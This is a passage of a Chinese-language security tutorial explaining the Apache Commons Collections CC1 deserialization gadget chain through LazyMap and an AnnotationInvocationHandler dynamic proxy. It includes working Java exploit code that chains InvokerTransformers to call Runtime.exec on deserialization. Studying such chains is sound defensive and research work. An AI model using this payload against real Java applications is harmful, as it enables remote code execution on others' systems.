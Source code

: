 于是作者找到了`AnnotationInvocationHandler#invoke`​方法调用了`get`​方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-c19e7fc567a45371c91245c648d7a01f9c59537c.png)​

又因为这个是`invoke`​方法，所以可以想到如果传入的是一个动态代理，并且调用的这个处理器类就可以默认去执行他的`invoke`​方法，所以其实也很清晰，就是通过传入一个代理类然后去调用一个方法即可触发这个代理调用处理器的`invoke`​方法，那么这里的`invoke`​是有几个条件的

1. 不能调用`equals`​
2. 无参方法

结果`readObject()`​中真的就存在一个不受限制的无参方法`entrySet`​

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2ce0bd95990e48ad8247720801e677e70aac64e7.png)​

所以这里就可以写exp了，将我们代理类以Map类传入，就可以走通了

```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);

        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = cls.newInstance(Override.class,maproxy);

        serialize(o);
        unserialize("ser.bin");
```

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-4e1bd15a892435d5362bf5d9000527574a074574.png)​

这里来解释一下为什么代理Map和实例化两个 因为我们可以看到两个`membervalue`​

第一个实例化对象是把Map给到readObject的`Map.Entry`​来调用`entrySet`​，第二个实例化对象是通过调用`entrySet`​来触发动态代理的`invoke`​方法

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-71aba020dccdaf6d0dad17ed0343780a092a8ae5.png)​

‍
